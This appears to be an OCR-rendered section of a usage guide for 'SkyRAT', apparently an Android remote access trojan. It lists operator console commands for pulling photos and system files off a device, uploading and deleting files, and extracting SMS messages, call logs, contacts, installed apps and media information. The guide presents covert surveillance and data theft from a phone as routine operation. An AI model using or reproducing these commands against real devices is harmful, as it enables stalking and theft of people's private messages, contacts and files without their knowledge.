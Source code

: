 #### **File Management**
```bash
SkyRAT:/> download /sdcard/DCIM/Camera/IMG_20240101_120000.jpg
# Download photo from device

SkyRAT:/> upload localfile.txt
# Upload file from server to device

SkyRAT:/> delete /sdcard/unwanted.txt
# Delete file from device

SkyRAT:/> mkdir /sdcard/test-folder
# Create directory
```

#### **File Operations Examples**
```bash
# Download system information
SkyRAT:/> download /proc/version

# Upload configuration file
SkyRAT:/> upload config.json

# Clean up test files
SkyRAT:/> delete /sdcard/test-folder
```

### **Data Extraction**

#### **Communication Data**
```bash
SkyRAT:/> getSMS inbox
# Extract inbox SMS messages

SkyRAT:/> getSMS sent  
# Extract sent SMS messages

SkyRAT:/> getCallLogs
# Extract call history

SkyRAT:/> getContacts
# Extract contact list
```

#### **Application Data**
```bash
SkyRAT:/> getApps
# List all installed applications

SkyRAT:/> getPhotos
# Get photos metadata and information

SkyRAT:/> getAudio
# Get audio files information

SkyRAT:/> getVideos
# Get video files information
```

